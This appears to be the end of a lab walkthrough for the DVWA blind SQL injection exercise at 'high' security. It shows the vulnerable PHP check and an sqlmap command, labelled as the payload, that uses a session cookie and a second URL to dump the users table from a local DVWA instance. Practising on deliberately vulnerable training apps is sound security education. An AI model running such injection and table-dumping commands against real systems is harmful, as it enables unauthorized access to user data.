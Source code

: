 ```php
    if ($exists) {
        // Feedback for end user
        echo '<pre>User ID exists in the database.</pre>';
    }
    else {
        // Might sleep a random amount
        if( rand( 0, 5 ) == 3 ) {
            sleep( rand( 2, 4 ) );
        }

        // User wasn't found, so the page wasn't!
        header( $_SERVER[ 'SERVER_PROTOCOL' ] . ' 404 Not Found' );

        // Feedback for end user
        echo '<pre>User ID is MISSING from the database.</pre>';
    }
}

?>
```
 

![](https://cdn-images-1.readmedium.com/v2/resize:fit:800/1*rYOKgnACTI-c7hoZp1KHtA.png)
Payload: 
```ruby
sqlmap -u "http://localhost/DVWA/vulnerabilities/sqli_blind/cookie-input.php" \
--data="id=1&Submit=Submit" \
--cookie="id=1; PHPSESSID=sik8mit21hrgujka27r06gep1g; security=high" \
--second-url="http://localhost/DVWA/vulnerabilities/sqli_blind/" \
--random-agent --batch --dbms=mysql -D dvwa -T users --dump

```
![](https://i.imgur.com/feHd6Ya.png)
![](https://i.imgur.com/aJURMBg.png)
![Uploading file...tsnk6]()

Thats it.

Thank you for reading. I hope it was helpful.